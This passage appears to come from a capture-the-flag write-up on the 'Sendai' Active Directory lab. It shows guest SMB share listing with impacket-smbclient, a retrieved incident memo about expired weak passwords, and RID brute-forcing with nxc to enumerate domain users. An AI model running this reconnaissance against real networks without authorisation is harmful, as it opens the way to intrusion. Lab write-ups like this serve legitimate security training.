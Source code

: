 - `sendai` (Read)
- `Users` (Read)
- `config` (Initially no access)
Exploring the `sendai` share reveals company structure and an incident report indicating password policy issues:

```
impacket-smbclient sendai.vl/'guest':''@sendai.vl -no-pass
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands
# use sendai
# ls
drw-rw-rw-          0  Tue Jul 18 20:31:04 2023 .
drw-rw-rw-          0  Wed Apr 16 05:55:42 2025 ..
drw-rw-rw-          0  Tue Jul 11 16:26:34 2023 hr
-rw-rw-rw-       1372  Tue Jul 18 20:34:15 2023 incident.txt
drw-rw-rw-          0  Tue Jul 18 16:16:46 2023 it
drw-rw-rw-          0  Tue Jul 11 16:26:34 2023 legal
drw-rw-rw-          0  Tue Jul 18 16:17:35 2023 security
drw-rw-rw-          0  Tue Jul 11 16:26:34 2023 transfer
# get incident.txt
```
The `incident.txt` file reveals that many user accounts had weak passwords and were expired, requiring password changes.
```
cat incident.txt 
Dear valued employees,

We hope this message finds you well. We would like to inform you about an important security update regarding user account passwords. Recently, we conducted a thorough penetration test, which revealed that a significant number of user accounts have weak and insecure passwords.

To address this concern and maintain the highest level of security within our organization, the IT department has taken immediate action. All user accounts with insecure passwords have been expired as a precautionary measure. This means that affected users will be required to change their passwords upon their next login.

We kindly request all impacted users to follow the password reset process promptly to ensure the security and integrity of our systems. Please bear in mind that strong passwords play a crucial role in safeguarding sensitive information and protecting our network from potential threats.

If you need assistance or have any questions regarding the password reset procedure, please don't hesitate to reach out to the IT support team. They will be more than happy to guide you through the process and provide any necessary support.

Thank you for your cooperation and commitment to maintaining a secure environment for all of us. Your vigilance and adherence to robust security practices contribute significantly to our collective safety.            
```

## Initial Access
### User Enumeration
RID brute-forcing reveals domain users:
```
nxc smb sendai.vl -u guest -p '' --rid-brute                         
SMB         10.129.234.66   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:sendai.vl) (signing:True) (SMBv1:False)
SMB         10.129.234.66   445    DC               [+] sendai.vl\guest: 
SMB         10.129.234.66   445    DC               498: SENDAI\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.234.66   445    DC               500: SENDAI\Administrator (SidTypeUser)
SMB         10.129.234.66   445    DC               501: SENDAI\Guest (SidTypeUser)
SMB         10.129.234.66   445    DC               502: SENDAI\krbtgt (SidTypeUser)
```